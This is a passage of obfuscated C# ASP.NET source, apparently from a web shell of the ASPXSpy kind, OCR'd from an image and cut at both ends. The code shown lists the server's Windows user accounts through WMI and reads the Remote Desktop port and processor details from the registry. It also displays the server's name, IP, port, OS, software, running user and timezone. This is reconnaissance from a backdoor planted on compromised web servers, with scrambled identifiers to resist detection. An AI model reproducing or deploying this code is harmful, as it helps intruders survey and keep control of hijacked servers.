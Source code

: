 xWVQ.Visible=true;
Bin_H2_Title.InnerText="User Information >>";
DataTable user=cCf("Win32_UserAccount");
for(int i=0;i<user.Rows.Count;i++)
{
for(int j=0;j<user.Columns.Count;j++)
{
string bg=OKM();
TableRow tr=new TableRow();
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";
TableCell td=new TableCell();
td.Text=user.Columns[j].ToString();
tr.Controls.Add(td);
TableCell td1=new TableCell();
td1.Text=user.Rows[i][j].ToString();
tr.Controls.Add(td1);
VPa.Controls.Add(tr);
}
TableRow trn=new TableRow();
for(int x=1;x<3;x++)
{
TableCell tdn=new TableCell();
tdn.Attributes["style"]="height:2px;background-color:#bbbbbb;";
trn.Controls.Add(tdn);
VPa.Controls.Add(trn);
}
}
}
catch(Exception error)
{
PLd();
}
}
public void pDVM()
{
try
{
RegistryKey EeZ=Registry.LocalMachine.OpenSubKey(@"SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp");
string IKjwH=DdmPl(EeZ,"PortNumber");
RegistryKey izN=Registry.LocalMachine.OpenSubKey(@"HARDWARE\DESCRIPTION\System\CentralProcessor");
int cpu=izN.SubKeyCount;
RegistryKey mQII=Registry.LocalMachine.OpenSubKey(@"HARDWARE\DESCRIPTION\System\CentralProcessor\0\");
string NPPZ=DdmPl(mQII,"ProcessorNameString");
WICxe();
ghaB.Visible=true;
Bin_H2_Title.InnerText="System Information >>";
Bin_H2_Mac.InnerText="MAC Information >>";
Bin_H2_Driver.InnerText="Driver Information >>";
StringBuilder yEwc=new StringBuilder();
StringBuilder hwJeS=new StringBuilder();
StringBuilder jXkaE=new StringBuilder();
yEwc.Append("<li><u>Server Domain : </u>"+Request.ServerVariables["SERVER_NAME"]+"</li>");
yEwc.Append("<li><u>Server Ip : </u>"+Request.ServerVariables["LOCAL_ADDR"]+":"+Request.ServerVariables["SERVER_PORT"]+"</li>");
yEwc.Append("<li><u>Terminal Port : </u>"+IKjwH+"</li>");
yEwc.Append("<li><u>Server OS : </u>"+Environment.OSVersion+"</li>");
yEwc.Append("<li><u>Server Software : </u>"+Request.ServerVariables["SERVER_SOFTWARE"]+"</li>");
yEwc.Append("<li><u>Server UserName : </u>"+Environment.UserName+"</li>");
yEwc.Append("<li><u>Server Time : </u>"+System.DateTime.Now.ToString()+"</li>");
yEwc.Append("<li><u>Server TimeZone : </u>"+cCf("Win32_TimeZone").Rows[0]["Caption"]+"</li>");